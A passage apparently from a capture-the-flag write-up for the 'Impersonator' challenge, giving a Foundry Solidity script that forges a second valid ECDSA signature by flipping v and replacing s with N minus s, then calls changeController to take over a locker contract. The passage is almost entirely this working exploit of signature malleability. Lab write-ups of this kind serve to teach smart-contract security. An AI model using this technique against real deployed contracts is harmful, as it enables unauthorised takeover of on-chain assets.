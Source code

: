 So all we need is here. We can write the attack logic now:

`Impersonator.s.sol`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.28;

import {Script} from "forge-std/Script.sol";
import {Impersonator, ECLocker} from "../src/Impersonator.sol";

contract ImpersonatorScript is Script {
    Impersonator impersonator = Impersonator(0xXXXXXXXXX);
    ECLocker locker = impersonator.lockers(0);
    bytes32 constant N = 0xFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFEBAAEDCE6AF48A03BBFD25E8CD0364141;

    function run() external {
        vm.startBroadcast();
        uint8 v = 0x1b;
        bytes32 r = 0x1932cb842d3e27f54f79f7be0289437381ba2410fdefbae36850bee9c41e3b91;
        bytes32 s = 0x78489c64a0db16c40ef986beccc8f069ad5041e5b992d76fe76bba057d9abff2;

        uint8 new_v = (v == 27 ? 28 : 27);
        bytes32 new_s = bytes32(uint256(N) - uint256(s));

        locker.changeController(new_v, r, new_s, address(0));

        vm.stopBroadcast();
    }
}
```

Note that v is in type `uint8`. 